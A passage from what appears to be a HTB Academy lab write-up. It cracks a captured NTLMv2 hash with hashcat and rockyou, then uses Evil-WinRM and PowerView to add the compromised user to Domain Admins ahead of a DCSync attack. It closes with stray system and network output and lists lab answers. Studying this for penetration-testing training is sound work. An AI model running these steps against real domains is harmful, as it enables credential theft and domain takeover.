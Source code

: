 ### 

10. Crack this user's password hash and submit the cleartext password as your answer.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#10.-crack-this-users-password-hash-and-submit-the-cleartext-password-as-your-answer.)

┌──(kali㉿kali)-[~]

└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

CT059::INLANEFREIGHT:<SNIP>:charlie1

**Answer:** `**charlie1**`

### 

11. Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#11.-submit-the-contents-of-the-flag.txt-file-on-the-administrator-desktop-on-the-dc01-host.)

BloodHound GUI: found that user `CT059` has `GenericAll` rights over the Domain Admins group (and also the Administrator account) - this can be abused to add us to that group or change the Administrator password. Either method would allow us to perform a DCSync attack against DC.

*Evil-WinRM* PS C:\> upload /home/htb-student/PowerView.ps1 C:\PowerView.ps1

Info: Uploading /home/htb-student/PowerView.ps1 to C:\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

​

*Evil-WinRM* PS C:\> import-module C:\PowerView.ps1

*Evil-WinRM* PS C:\> get-module

​

ModuleType Version Name ExportedCommands

---------- ------- ---- ----------------

Manifest 3.1.0.0 Microsoft.PowerShell.Management {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}

Manifest 3.1.0.0 Microsoft.PowerShell.Utility {Add-Member, Add-Type, Clear-Variable, Compare-Object...}

Script 0.0 PowerView

​

*Evil-WinRM* PS C:\> $SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force

*Evil-WinRM* PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT.LOCAL\CT059', $SecPassword)

*Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'CT059' -Credential $Cred -Verbose


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0
